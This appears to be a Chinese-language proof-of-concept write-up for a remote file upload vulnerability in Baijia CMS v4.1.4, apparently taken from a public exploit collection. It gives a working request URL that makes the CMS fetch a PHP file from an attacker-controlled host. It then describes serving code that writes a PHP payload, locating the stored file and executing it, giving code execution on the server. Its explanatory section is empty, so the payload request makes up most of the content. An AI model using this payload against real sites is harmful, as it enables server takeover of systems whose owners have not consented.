 百家cms v4.1.4 远程文件上传漏洞
===============================

一、漏洞简介
------------

二、漏洞影响
------------

百家cms v4.1.4

三、复现过程
------------

    # 需要后台权限
    http://www.0-sec.org/index.php?mod=web&do=file&m=public&op=fetch&url=http://xx.xx.xx.xx/test/test.php

远程服务器起一个/test/test.php，内容为\*\*\<?php echo \"\<?php
phpinfo();\";\*\*

![](resource/百家cmsv4.1.4远程文件上传漏洞/media/rId24.png)

访问payload，得到路径

![](resource/百家cmsv4.1.4远程文件上传漏洞/media/rId25.png)

访问路径，执行代码

![](resource/百家cmsv4.1.4远程文件上传漏洞/media/rId26.png)

查看本地文件

![](resource/百家cmsv4.1.4远程文件上传漏洞/media/rId27.png)

参考链接
--------

> https://xz.aliyun.com/t/7542
